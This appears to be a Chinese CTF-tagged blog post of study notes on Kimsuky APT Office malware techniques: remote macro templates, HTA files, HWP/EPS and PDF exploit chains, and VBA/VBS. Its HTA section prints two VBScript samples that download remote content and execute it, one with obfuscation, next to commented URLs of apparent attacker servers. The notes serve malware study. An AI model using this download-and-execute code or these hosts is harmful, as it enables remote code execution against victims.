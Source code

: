 ```yaml
---
title: Office宏病毒
date: 2023-08-29 10:19:49
categories: CTF
tags: [Virus]
---
```


> [东北亚APT-kimsuky](https://blog.nsfocus.net/apt-kimsuky-2/)， 被认为来自朝鲜 

## 1.利用Office模板

### 简介

模板具有特殊的文件格式，Word 2003 模板的文件扩展名为 .dot，Word 2007 及 Word 更高版本的模板文件的扩展名为 .dotx或 .dotm；dotx 为不包含 VBA 代码的模板；dotm 模板可以包含 VBA代码。

创建模板后，可以通过模板文件的图标来区分模板是否可以包含 VBA代码。

图标上带有叹号的模板文件，表示可以包含 VBA 代码；反之，图标上未带有叹号的模板文件，表示不能包含VBA 代码。

### 加载远程模板和恶意宏分离：

 2020年4月，Kimsuky利用韩国议会选举的热度[1]，投递了名为《第21届国民议会选举相关》的诱饵文档。该文档打开后会加载一个包含恶意宏的远程dotm模板，只有当dotm文件成功加载后，office才会提示用户启用宏。这种方法将初始钓鱼文档和包含恶意宏的远程文档分离，起到保护作用，因为初始文档除了加载远程模板外，并没有其他恶意行为。 

 

## 2.利用Hta

  HTML Application ， 由 Microsoft 创建 的文件格式， 允许 Web 技术（如 HTML、JavaScript 和 VBScript）创建独立的可执行应用程序像exe那样执行。 

 .hta 合法目的一般是用来创建简单的桌面应用程序 ，但它可以访问计算机上的文件、注册表等资源， 被滥用作为恶意攻击的工具。由mshta.exe执行。 

```html
<html>
<script language="vbscript">
On Error Resume Next
Set Posto = CreateObject("MSXML2.ServerXMLHTTP.6.0")
Posto.open "GET", "baidu.com", False
' http://hpurusymireene.com/theme/basic/skin/member/basic/upload/eweerew.php?er=1
Posto.send
to = Posto.responseText
Execute(to)
</script>
</html>

<html>
<!--一个简单的子序列拼接函数-->
<!--输入'123456789abcdefghiklm'-->
<!--输出''1a2b3c4d5e6f7g8h9iklm''--> 
<script language="vbscript">
On Error Resume Next

Function cooo(c)
    L = Len(c)
    s = ""
    d = 9
    For jx = 0 To d - 1
        For ix = 0 To Int(L/d) - 1
            s = s & Mid(c, ix*d+jx+1, 1)
        Next
    Next
    s = s & Right(c, L - Int(L/d) * d)
    cooo = s
End Function

Set Posto = CreateObject("MSXML2.ServerXMLHTTP.6.0")
Posto.open "GET", "baidu.com", False
' https://christinadudley.com/public_html/edudley/sites/default/files/1203427/expres.php?op=1
Posto.send
to = Posto.responseText
to = cooo(to)
Execute(to)
</script>
</html>
```

### 延迟执行：

 某些变种在设置使用mshta下载hta的计划任务时，会令其不立即启动，以对抗某些单个程序运行时间受限的沙箱。 

## 3.触发链

 2019年3月，Kimsuky利用韩日在二战赔偿问题上的僵持局面，伪装成韩国外交部投递了名为“20190312日本每日趋势”的hwp诱饵文档 

### 韩国hwp eps

 hwp是韩国hansoft开发的hangul办公软件使用的文档   EPS(Encapsulated PostScript)， 这种脚本是Adobe推出的PostScript脚本（一种用于初版行业的打印机编程语言）的分支 ， 可以被利用来包含恶意代码。

```
hwp->eps->powershell-->wsf-->js-->恶意组件
```



## 4.利用pdf文档

 Kimsuky在今年5~8月转而使用携带漏洞的恶意pdf文档，借用南北议题作为诱饵对韩国政府人员进行攻击 

```
pdf-->adobe acrobat漏洞cve-2020-9715触发--->内嵌隐藏的恶意JS->解密pe
文件-->内存加载执行
```



## 5.VBS和VBA

 VBA (Visual Basic for Applications) 和 VBS (VBScript) 都是基于 Visual Basic 语言的脚本语言， 

VBS 通过wscript.exe（图形版）或者cscript.exe（命令行版）执行。

 **VBA**：主要用于 Microsoft Office 应用程序（如 Excel、Word、Access）中的宏编程。 

 2020年6月，Kimsuky投递名为“朝鲜加强核战争威慑的措施及韩国的应对”的诱饵邀稿函，让目标就朝鲜第七届中央军事委员会，撰写文章进行评价与展望 

技术特点：关键命令并不位于vba宏里，因此直接对宏进行静态检测将难以发现威胁 

形式特点： 当用户点击启用内容后，真实表格才会显示出来 。
